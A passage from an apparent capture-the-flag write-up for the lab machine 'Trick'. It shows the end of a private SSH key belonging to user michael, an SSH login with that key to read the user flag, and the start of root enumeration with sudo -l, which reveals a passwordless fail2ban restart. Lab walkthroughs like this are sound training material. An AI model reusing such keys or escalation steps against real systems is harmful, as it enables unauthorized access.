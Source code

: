 ```bash
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Login and grab ``user.txt``:
```bash
➜  trick ssh michael@10.129.37.48 -i michael-id_rsa 
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ id && hostname && cat user.txt 
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
trick
6c4275462016ada1fe28be5396666965
```

**NOTE:** Michael is a part of group `security`

----------------

# ROOT
### Step 1
Enumerate the user space and see if we find anything sensitive.

**Sudo -l:**
```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
